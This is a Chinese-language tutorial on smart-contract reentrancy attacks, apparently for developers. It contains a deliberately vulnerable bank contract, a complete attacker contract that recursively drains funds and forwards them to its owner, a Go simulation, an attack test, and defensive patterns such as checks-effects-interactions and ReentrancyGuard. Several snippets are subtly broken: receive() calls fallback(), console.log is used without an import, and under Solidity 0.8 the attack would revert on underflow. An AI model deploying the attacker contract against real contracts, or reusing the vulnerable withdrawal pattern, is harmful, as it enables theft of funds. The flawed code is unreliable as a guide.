

## 1. 重入攻击核心概念

### 1.1 什么是重入攻击？

**重入攻击** 是一种利用以太坊合约在执行外部调用时**暂停当前执行流程**的特性，通过恶意合约的回调函数**递归地**重新进入当前函数或敏感函数，从而重复提取资金或操纵状态的攻击方式。

### 1.2 攻击发生的根本原因



**关键问题**：**先支付，后更新状态** 的错误模式。

---

## 2. 漏洞合约示例

### 2.1 存在重入漏洞的银行合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// 🚨 存在重入漏洞的银行合约
contract VulnerableBank {
    mapping(address => uint256) public balances;
    
    event Deposit(address indexed user, uint256 amount);
    event Withdraw(address indexed user, uint256 amount);
    
    // 存款函数
    function deposit() external payable {
        require(msg.value > 0, "Deposit amount must be positive");
        balances[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }
    
    // 🚨 存在重入漏洞的取款函数
    function withdraw(uint256 _amount) external {
        require(balances[msg.sender] >= _amount, "Insufficient balance");
        
        // 漏洞点：先转账，后更新状态
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");
        
        // 状态更新在转账之后！
        balances[msg.sender] -= _amount;
        emit Withdraw(msg.sender, _amount);
    }
    
    // 查看合约余额
    function getContractBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

### 2.2 恶意攻击合约

```solidity
// 恶意攻击合约
contract MaliciousAttacker {
    VulnerableBank public bank;
    uint256 public attackCount;
    address public owner;
    
    constructor(address _bankAddress) {
        bank = VulnerableBank(_bankAddress);
        owner = msg.sender;
    }
    
    // 攻击入口函数
    function attack() external payable {
        require(msg.value > 0, "Need ETH to deposit");
        
        // 1. 先存款
        bank.deposit{value: msg.value}();
        
        // 2. 发起取款攻击
        bank.withdraw(msg.value);
    }
    
    // 🎯 关键：fallback函数 - 重入攻击点
    fallback() external payable {
        attackCount++;
        console.log("Fallback called, attack count:", attackCount);
        console.log("Bank balance:", bank.getContractBalance());
        console.log("My balance in bank:", bank.balances(address(this)));
        
        // 如果银行合约还有余额，继续攻击
        if (address(bank).balance >= 1 ether && attackCount < 10) {
            bank.withdraw(1 ether);
        }
    }
    
    receive() external payable {
        // 同样可以用于攻击
        fallback();
    }
    
    // 提取被盗资金
    function withdrawStolenFunds() external {
        require(msg.sender == owner, "Not owner");
        payable(owner).transfer(address(this).balance);
    }
    
    function getBalance() external view returns (uint256) {
        return address(this).balance;
    }
}
```

---

## 3. 攻击过程详细分析

### 3.1 攻击执行流程

```go
package main

import "fmt"

// 用Go模拟重入攻击流程
type ReentrancyAttack struct {
    bankBalance    float64
    attackerBalance float64
    attackCount    int
}

func (r *ReentrancyAttack) SimulateAttack() {
    fmt.Println("=== 重入攻击模拟开始 ===")
    
    // 初始状态
    r.bankBalance = 10.0    // 银行合约有10 ETH
    r.attackerBalance = 1.0 // 攻击者存入1 ETH
    
    fmt.Printf("初始状态: 银行余额=%.1f ETH, 攻击者在银行余额=%.1f ETH\n", 
        r.bankBalance, r.attackerBalance)
    
    // 第一次取款（正常流程开始）
    r.withdraw(1.0)
    
    fmt.Printf("最终结果: 银行余额=%.1f ETH, 攻击者余额=%.1f ETH\n", 
        r.bankBalance, r.attackerBalance)
    fmt.Println("=== 攻击完成 ===")
}

func (r *ReentrancyAttack) withdraw(amount float64) {
    r.attackCount++
    fmt.Printf("\n第 %d 次取款调用:\n", r.attackCount)
    
    // 检查余额（通过，因为状态还未更新）
    fmt.Printf("  - 余额检查: %.1f >= %.1f ✓\n", r.attackerBalance, amount)
    
    // 转账（触发重入）
    fmt.Printf("  - 执行转账: %.1f ETH\n", amount)
    r.bankBalance -= amount
    r.attackerBalance += amount
    
    fmt.Printf("  - 转账后: 银行余额=%.1f ETH, 攻击者余额=%.1f ETH\n", 
        r.bankBalance, r.attackerBalance)
    
    // 重入攻击条件
    if r.bankBalance >= 1.0 && r.attackCount < 5 {
        fmt.Printf("  - 🚨 检测到重入机会，继续攻击...\n")
        r.withdraw(amount) // 递归调用！
    }
    
    // 状态更新（太晚了！）
    fmt.Printf("  - 更新攻击者在银行余额: %.1f → ", r.attackerBalance)
    r.attackerBalance -= amount
    fmt.Printf("%.1f ETH\n", r.attackerBalance)
}

func main() {
    attack := &ReentrancyAttack{}
    attack.SimulateAttack()
}
```

**输出结果：**
```
=== 重入攻击模拟开始 ===
初始状态: 银行余额=10.0 ETH, 攻击者在银行余额=1.0 ETH

第 1 次取款调用:
  - 余额检查: 1.0 >= 1.0 ✓
  - 执行转账: 1.0 ETH
  - 转账后: 银行余额=9.0 ETH, 攻击者余额=2.0 ETH
  - 🚨 检测到重入机会，继续攻击...

第 2 次取款调用:
  - 余额检查: 2.0 >= 1.0 ✓
  - 执行转账: 1.0 ETH
  - 转账后: 银行余额=8.0 ETH, 攻击者余额=3.0 ETH
  - 🚨 检测到重入机会，继续攻击...
...
最终结果: 银行余额=5.0 ETH, 攻击者余额=6.0 ETH
=== 攻击完成 ===
```

---

## 4. 防护措施与安全模式

### 4.1 检查-效果-交互模式（推荐）

```solidity
// ✅ 安全的银行合约 - 使用检查-效果-交互模式
contract SecureBank {
    mapping(address => uint256) public balances;
    bool private locked; // 重入锁
    
    event Deposit(address indexed user, uint256 amount);
    event Withdraw(address indexed user, uint256 amount);
    
    // 存款函数
    function deposit() external payable {
        require(msg.value > 0, "Deposit amount must be positive");
        balances[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }
    
    // ✅ 安全的取款函数 - 检查-效果-交互模式
    function withdraw(uint256 _amount) external {
        // 检查
        require(balances[msg.sender] >= _amount, "Insufficient balance");
        require(!locked, "Reentrancy detected");
        
        // 效果 - 先更新状态！
        balances[msg.sender] -= _amount;
        
        // 交互 - 最后进行外部调用
        locked = true;
        (bool success, ) = msg.sender.call{value: _amount}("");
        locked = false;
        
        require(success, "Transfer failed");
        emit Withdraw(msg.sender, _amount);
    }
}
```

### 4.2 使用 OpenZeppelin 的重入防护

```solidity
// ✅ 使用 OpenZeppelin 的安全合约
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract SecureBankWithGuard is ReentrancyGuard {
    mapping(address => uint256) public balances;
    
    function deposit() external payable {
        require(msg.value > 0, "Deposit amount must be positive");
        balances[msg.sender] += msg.value;
    }
    
    // ✅ 使用 nonReentrant 修饰器
    function withdraw(uint256 _amount) external nonReentrant {
        require(balances[msg.sender] >= _amount, "Insufficient balance");
        
        // 先更新状态
        balances[msg.sender] -= _amount;
        
        // 然后转账
        (bool success, ) = msg.sender.call{value: _amount}("");
        require(success, "Transfer failed");
    }
}
```

### 4.3 使用转移模式

```solidity
// ✅ 使用转移模式 - 避免直接call
contract SecureBankWithTransfer {
    mapping(address => uint256) public balances;
    
    function withdraw(uint256 _amount) external {
        require(balances[msg.sender] >= _amount, "Insufficient balance");
        
        // 先更新状态
        balances[msg.sender] -= _amount;
        
        // 使用transfer而不是call（有2300 gas限制，不足以进行重入）
        payable(msg.sender).transfer(_amount);
    }
}
```

---

## 5. 真实世界案例：The DAO 攻击

### 5.1 历史背景

2016年的 **The DAO** 事件是区块链历史上最著名的重入攻击案例，导致 **360万 ETH**（当时约5000万美元）被盗，最终导致以太坊硬分叉。

### 5.2 漏洞代码模拟

```solidity
// 模拟 The DAO 的重入漏洞
contract TheDAO {
    mapping(address => uint256) public balances;
    
    function withdraw() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance");
        
        // 🚨 漏洞：先转账，后更新状态
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        
        balances[msg.sender] = 0;
    }
    
    function splitDAO() public {
        // ... 其他逻辑
        withdraw(); // 可重入的调用
    }
}
```

---

## 6. 检测与测试方法

### 6.1 使用测试框架检测

```javascript
const { expect } = require("chai");

describe("重入攻击测试", function() {
    it("应该能够通过重入攻击盗取资金", async function() {
        const Bank = await ethers.getContractFactory("VulnerableBank");
        const Attacker = await ethers.getContractFactory("MaliciousAttacker");
        
        const bank = await Bank.deploy();
        const attacker = await Attacker.deploy(bank.address);
        
        // 先存款
        await bank.deposit({value: ethers.utils.parseEther("1")});
        
        // 执行攻击
        await attacker.attack({value: ethers.utils.parseEther("1")});
        
        // 验证攻击成功
        const attackerBalance = await attacker.getBalance();
        expect(attackerBalance).to.be.gt(ethers.utils.parseEther("1"));
    });
});
```

---

## 7. 总结与最佳实践

### 7.1 重入攻击的关键特征

1. **✅ 使用外部调用**：`call()`, `transfer()`, `send()`
2. **✅ 状态更新在外部调用之后**
3. **✅ 攻击者控制回调函数**

### 7.2 防护最佳实践

| 防护措施 | 实现方式 | 优点 | 缺点 |
|---------|----------|------|------|
| **检查-效果-交互** | 先更新状态，后外部调用 | 简单有效 | 需要手动实现 |
| **重入防护锁** | 使用布尔锁变量 | 明确防止重入 | 增加复杂度 |
| **OpenZeppelin** | `ReentrancyGuard` | 标准化，经过审计 | 依赖外部库 |
| **转移模式** | 使用 `transfer()` | Gas限制防止重入 | 可能因Gas不足失败 |

### 7.3 安全开发准则

1. **永远遵循"检查-效果-交互"模式**
2. **使用经过审计的安全库（如OpenZeppelin）**
3. **对所有外部调用保持警惕**
4. **进行彻底的测试，包括重入测试**
5. **考虑使用形式化验证工具**

重入攻击虽然概念简单，但在实践中仍然经常出现。理解其机制并采用防御性编程模式是每个智能合约开发者的必备技能。